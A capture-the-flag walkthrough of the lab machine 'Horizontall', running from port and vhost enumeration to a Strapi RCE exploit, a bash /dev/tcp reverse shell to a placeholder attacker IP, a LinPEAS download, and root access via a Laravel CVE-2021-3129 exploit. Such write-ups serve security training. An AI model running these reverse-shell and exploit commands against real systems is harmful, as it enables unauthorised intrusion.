





I start by performing a full port scan against the target machine to identify open services.
nmap -Pn -sV -sC -p- --open 10.10.11.105 -oN scan.txt
The application presents some connectivity issues, so I add the
hostname to my /etc/hosts file.
At first glance, the website only contains a couple of buttons and nothing particularly interesting.
I perform directory enumeration to check if any hidden endpoints or login panels are exposed.
dirb http://horizontall.htb/Since directory enumeration does not reveal anything useful, I proceed with virtual host enumeration.
gobuster vhost -u http://horizontall.htb -t 35 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
--append-domain -k --no-errorThe output contains too many false positives, so I switch to ffuf for more accurate results.
sudo ffuf -u http://horizontall.htb/ \
-H "Host: FUZZ.horizontall.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
-fs 194Since no obvious attack vectors appear, I inspect the website source code looking for hidden references or redirections.
The HTML itself does not reveal anything useful, so I analyze the loaded JavaScript files instead.
After beautifying the JavaScript code, I discover a redirection pointing to another subdomain.

I add the newly discovered subdomain to /etc/hosts
and continue enumeration from there.
I perform directory enumeration against the API endpoint.
dirb http://api-prod.horizontall.htb/Several interesting directories are discovered during this phase.

While robots.txt and users do not provide
anything relevant, accessing the admin endpoint
reveals a login page.
Default credentials do not work, so I intercept the login request using Burp Suite to analyze the server response.
The response does not reveal anything useful, so I perform directory enumeration inside the admin panel itself.
This leads me to the init directory, where I identify the version of Strapi in use.
Using searchsploit, I find a known Remote Code Execution vulnerability affecting this version of Strapi.

python3 50239.py http://api-prod.horizontall.htb/The exploit provides a blind shell, which I then use to obtain a full reverse shell.
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1To avoid a Bad Request error, I execute the payload through a bash wrapper.
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
With the reverse shell established, I locate and retrieve the
user.txt flag from the developer’s home directory.
cat /home/developer/user.txt
Attempting to run sudo -l fails because it requires
the Strapi user password.
I upload LinPEAS to the target system to identify potential privilege escalation vectors.
python3 -m http.server <PORT>wget http://<IP>:<PORT>/linpeas.shchmod +x linpeas.sh
./linpeas.sh > linpeas.txt
LinPEAS highlights several open local ports. Using
netstat, I confirm that a web service is running
locally.
netstat -pentul
I send a request to the local service running on port 8000 and discover a Laravel application.
curl -sSL -D- http://localhost:8000 -o /dev/nullSince the service is only accessible locally, I set up SSH port forwarding to access it from my own machine.
After analyzing the application, I identify a vulnerable version of Laravel affected by CVE-2021-3129.
I execute a public exploit and confirm that I can run commands as the root user.
python3 exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"